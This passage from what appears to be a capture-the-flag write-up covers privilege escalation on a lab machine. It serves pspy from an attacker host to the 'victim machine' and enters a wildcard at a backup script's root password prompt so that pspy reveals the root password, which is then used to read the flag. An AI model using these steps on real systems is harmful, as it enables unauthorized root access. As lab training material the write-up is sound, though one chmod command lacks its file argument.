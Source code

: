 <br />

Let's use [pspy](https://github.com/DominicBreuker/pspy) for this, we can **download it**:
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
sudo python3 -m http.server 80
```
<br />

And **transfer it** to the victim machine:
```bash
wget http://10.10.16.4/pspy64
chmod +x
```
<br />

Finally, let's **run it** and **execute the bash script** in separate terminals, when asked for the **root password**, type a single asterisk `*`:
```bash
./pspy64 | grep -vE "auto" | grep mysql*
sudo /opt/scripts/mysql-backup.sh
```
![](/assets/Codify/15.png)
<br />
<br />
<br />

Great, we obtained the **password for the user root**, let's use it an print the **root flag**:

```bash
su
```
![](/assets/Codify/16.png)
<br />
<br />
<br />

